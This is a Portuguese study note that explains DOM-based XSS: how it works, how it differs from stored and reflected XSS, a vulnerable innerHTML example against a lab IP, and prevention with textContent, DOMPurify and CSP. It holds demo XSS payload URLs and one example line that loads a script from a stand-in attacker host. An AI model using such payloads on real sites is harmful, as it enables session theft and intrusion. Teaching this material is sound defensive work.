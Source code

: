 ## O que é DOM-Based XSS?

[[5 - LABS - XSS Dom Based]]

**DOM-Based XSS** é uma vulnerabilidade de execução de código malicioso onde o ataque ocorre **inteiramente no lado do cliente (frontend)**, sem qualquer interação com o servidor (backend). A vulnerabilidade é explorada através da manipulação do **DOM (Document Object Model)** via JavaScript mal implementado.

---

### Como funciona?

1. O usuário acessa uma URL com um parâmetro malicioso (por exemplo: `?search=<script>alert('XSS')</script>`).
    
2. O código JavaScript da página coleta esse valor da URL (por exemplo, usando `URLSearchParams`).
    
3. O valor é **inserido diretamente** no DOM com `innerHTML`, `document.write`, ou métodos semelhantes, **sem sanitização**.
    
4. O navegador interpreta o valor como HTML e executa o JavaScript injetado.
    

---

### Diferença entre DOM-Based, Stored e Reflected XSS:

|Tipo de XSS|Interação com backend?|Persistente?|Exemplo de origem|
|---|---|---|---|
|Reflected|Sim|Não|Query string (URL)|
|Stored|Sim|Sim|Comentários, perfis|
|**DOM-Based**|**Não**|Não|Frontend (JS local)|

---

### Exemplo prático explicado:

Imagine uma URL como:

```
http://10.10.0.3/?search=teste
```

No JavaScript da página, o código pode estar assim:

```javascript
const params = new URLSearchParams(window.location.search);
const pesquisa = params.get("search");

if (pesquisa) {
  document.getElementById("searchmessage").innerHTML = `0 resultados para ${pesquisa}`;
}
```

Se você acessar:

```
http://10.10.0.3/?search=<b style="color:red">XSS</b>
```

A página exibirá:

> 0 resultados para **XSS** (em vermelho)

Porque o conteúdo da URL foi **injetado diretamente no HTML da página**, sem limpeza.

Agora, se você acessar:

```
http://10.10.0.3/?search=<script>alert('DOM XSS')</script>
```

O alerta será executado — isso é **DOM-Based XSS**.

---

### Por que é perigoso?

- **O servidor nem sabe que foi explorado**.
    
- Pode **bypassar firewalls** ou WAFs que analisam apenas o tráfego para o backend.
    
- O código malicioso pode ser **armazenado em links compartilhados**.
    
- Permite ataques como:
    
    - Roubo de sessão (`document.cookie`)
        
    - Keyloggers
        
    - Redirecionamentos maliciosos
        
    - Injeção de scripts externos (ex: `<script src="http://atacante.com/xss.js"></script>`)
        

---

### Como prevenir?

1. **Nunca usar `innerHTML`** com conteúdo não sanitizado.
    
2. Preferir `textContent` ou `innerText` para inserção de texto dinâmico.
    
3. Usar bibliotecas de sanitização como [DOMPurify](https://github.com/cure53/DOMPurify).
    
4. Validar e codificar entradas mesmo no frontend.
    
5. Usar políticas de segurança como **Content-Security-Policy (CSP)**.
